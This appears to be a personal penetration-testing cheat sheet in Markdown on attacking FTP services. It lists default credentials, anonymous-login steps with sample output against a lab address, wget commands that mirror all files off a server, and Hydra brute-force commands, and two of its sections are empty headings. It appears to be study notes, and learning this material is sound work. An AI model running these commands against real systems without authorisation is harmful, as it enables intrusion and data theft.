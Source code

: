 ```yaml
---
id: Exploitation
aliases: []
tags:
  - NEtworking/Services/FTP
links: "[[FTP]]"
---
```


# FTP Exploitation

## Common credentials

```
anonymous : anonymous
_anonymous :
_ftp : ftp
admin : admin
administrator : administrator
root : root
ftpuser : ftpuser
test : test
```

## Anonymous login

```sh
ftp <ip>
>anonymous
>anonymous
>binary # set transmission to binary instead of ASCII
>ascii # set transmission to ASCII instead of binary

```

Anonymous login example

```sh
ftp -p 10.129.42.253

Connected to 10.129.42.253.
220 (vsFTPd 3.0.3)
Name (10.129.42.253:user): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Download all files

```sh
wget -m ftp://anonymous:anonymous@<ip>
wget -m --no-passive ftp://anonymous:anonymous@<ip>
```

## Brute force

Hydra

```sh
hydra -l {target_user} -P {password_list} <target_ip> ftp
hydra -L {users_list} -p {password} ftp://<ip>
```

## FTPBounce attack

## Filezilla Server Vulnerability

___

# FTP Post-Exploitation

Download all files

```sh
wget -r --user="USERNAME" --password="PASSWORD" ftp://<server_address>/
```
